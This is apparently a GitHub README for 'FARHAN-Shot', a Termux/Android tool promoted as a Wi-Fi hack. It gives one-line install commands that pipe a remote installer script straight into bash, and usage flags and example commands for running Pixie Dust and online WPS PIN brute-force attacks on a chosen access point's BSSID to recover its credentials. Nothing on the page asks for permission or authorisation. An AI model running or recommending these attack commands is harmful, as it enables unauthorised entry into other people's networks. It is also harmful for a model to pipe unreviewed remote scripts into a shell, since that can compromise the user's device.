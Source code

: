 ### FARHAN-Shot

<a href="https://git.io/typing-svg"><img src="https://readme-typing-svg.demolab.com?font=Fira+Code&pause=1000&color=35F700&background=3C8BFF00&random=false&width=435&lines=Thanks+for+use+my+command+;place+don't+forged+start+;Im+farhan+hi;Facebook%3A+farhan+muh+tasin" alt="Typing SVG" /></a>

[![Typing SVG](https://readme-typing-svg.demolab.com?font=Fira+Code&pause=1000&random=false&width=435&lines=im-farhan-thanks-for-my-cmd-use)](https://git.io/typing-svg)

### Hola, bienvenid@ **TERMUX** REPO CLEAN FILES.. 
..using  *wifi-hack* by Termux/Android, FARHAN-😫!!
<br><br>
![termuxICO](https://user-images.githubusercontent.com/80227002/112893051-6feceb00-90da-11eb-856d-1fac8f6d169a.png)
<br><br>

### wifi-hack
<p align="center"><img src="https://user-images.githubusercontent.com/75953873/115979290-66309900-a55b-11eb-8259-4b125efc42bb.png"></p>

[![Python 3.5](https://img.shields.io/badge/Python-3.5-yellow.svg)](http://www.python.org/download/)
[![python](https://img.shields.io/badge/python-2.7-brightgreen.svg)](https://www.python.org/downloads/release/python-2714/)
[![OS](https://img.shields.io/badge/Tested%20On-Linux%20%7C%20Android-yellowgreen.svg)](https://termux.com/)


### How to update WifiHack
To check for updates and update, run the following command:
```
(cd FARHAN-Shot && git pull)
```

# FARHAN-Shot2_Termux_installer/LINK
```
 https://github.com/Gtajisan/FARHAN-Shot_Termux_installer
 ```



# Overview
**FARHAN-Shot2** performs [Pixie Dust attack](https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-Offline-WPS-Attack) without having to switch to monitor mode.
# Features
 - [Pixie Dust attack](https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-Offline-WPS-Attack);
 - integrated [3WiFi offline WPS PIN generator](https://3wifi.stascorp.com/wpspin);
 - [online WPS bruteforce](https://sviehb.files.wordpress.com/2011/12/viehboeck_wps.pdf);
 - Wi-Fi scanner with highlighting based on iw;
# Requirements
 - Python 3.6 and above;
 - [Wpa supplicant](https://www.w1.fi/wpa_supplicant/);
 - [Pixiewps](https://github.com/wiire-a/pixiewps);
 - [iw](https://wireless.wiki.kernel.org/en/users/documentation/iw).

Please note that root access is required.  

### Installation one line:

```bash
apt update && apt upgrade && pkg install tsu && pkg install python && pkg install git && pkg install -y root-repo && pkg install -y git tsu python wpa-supplicant pixiewps iw openssl && termux-setup-storage && curl -sSf https://raw.githubusercontent.com/gtajisan/FARHAN-Shot_Termux_installer/master/installer.sh | bash && git clone --depth 1 https://github.com/gtajisan/FARHAN-Shot FARHAN-Shot && sudo python FARHAN-Shot/FARHAN-Shot.py -i wlan0 --iface-down -K
```


## [Termux](https://termux.com/)
Please note that root access is required.  

### Hack WIfi Using Termux! (Requires Root)
<p align="center"><img src="https://imgtr.ee/image/EbAMl"></



#### Using installer
 ```
 curl -sSf https://raw.githubusercontent.com/gtajisan/FARHAN-Shot_Termux_installer/master/installer.sh | bash
 ```
#### Manually
**Installing requirements**
 ```
pkg update
pkg upgrade
pkg install tsu
pkg install python
pkg install git
pkg install -y root-repo
pkg install -y git tsu python wpa-supplicant pixiewps iw openssl
termux-setup-storage
 ```
**run farhan hack py**
 ```
 git clone --depth 1 https://github.com/gtajisan/FARHAN-Shot FARHAN-Shot
 ```
 ```
 cd FARHAN-Shot
 ```

#### Running
 ```
 sudo python FARHAN-Shot/FARHAN-Shot.py -i wlan0 -K
 ```




# Usage
```
 FARHAN-Shot.py <arguments>
 Required arguments:
     -i, --interface=<wlan0>  : Name of the interface to use

 Optional arguments:
     -b, --bssid=<mac>        : BSSID of the target AP
     -p, --pin=<wps pin>      : Use the specified pin (arbitrary string or 4/8 digit pin)
     -K, --pixie-dust         : Run Pixie Dust attack
     -B, --bruteforce         : Run online bruteforce attack
     --push-button-connect    : Run WPS push button connection

 Advanced arguments:
     -d, --delay=<n>          : Set the delay between pin attempts [0]
     -w, --write              : Write AP credentials to the file on success
     -F, --pixie-force        : Run Pixiewps with --force option (bruteforce full range)
     -X, --show-pixie-cmd     : Alway print Pixiewps command
     --vuln-list=<filename>   : Use custom file with vulnerable devices list ['vulnwsc.txt']
     --iface-down             : Down network interface when the work is finished
     -l, --loop               : Run in a loop
     -r, --reverse-scan       : Reverse order of networks in the list of networks. Useful on small displays
     --mtk-wifi               : Activate MediaTek Wi-Fi interface driver on startup and deactivate it on exit
                                (for internal Wi-Fi adapters implemented in MediaTek SoCs). Turn off Wi-Fi in the system settings before using this.
     -v, --verbose            : Verbose output
 ```

## Usage examples
Start Pixie Dust attack on a specified BSSID:
 ```
cd FARHAN-Shot && sudo python3 FARHAN-Shot.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
 ```
Show avaliable networks and start Pixie Dust attack on a specified network:
 ```
cd FARHAN-Shot && sudo python3 FARHAN-Shot.py -i wlan0 -K
 ```
Launch online WPS bruteforce with the specified first half of the PIN:
 ```
cd FARHAN-Shot && sudo python3 FARHAN-Shot.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
 ```
 Start WPS push button connection:s
 ```
cd FARHAN-Shot && sudo python3 FARHAN-Shot.py -i wlan0 --pbc
 ```
## Troubleshooting
#### "RTNETLINK answers: Operation not possible due to RF-kill"
 Just run:
```sudo rfkill unblock wifi```
#### "Device or resource busy (-16)"
 Try disabling Wi-Fi in the system settings and kill the Network manager. Alternatively, you can try running FARHAN-Shot2 with ```--iface-down``` argument.
#### The wlan0 interface disappears when Wi-Fi is disabled on Android devices with MediaTek SoC
 Try running FARHAN-Shot2 with the `--mtk-wifi` flag to initialize Wi-Fi device driver.
# Acknowledgements
## Special Thanks
* `rofl0r` for initial implementation;
* `Monohrom` for testing, help in catching bugs, some ideas;
* `Wiire` for developing Pixiewps.
* binod-xd` for inspire.
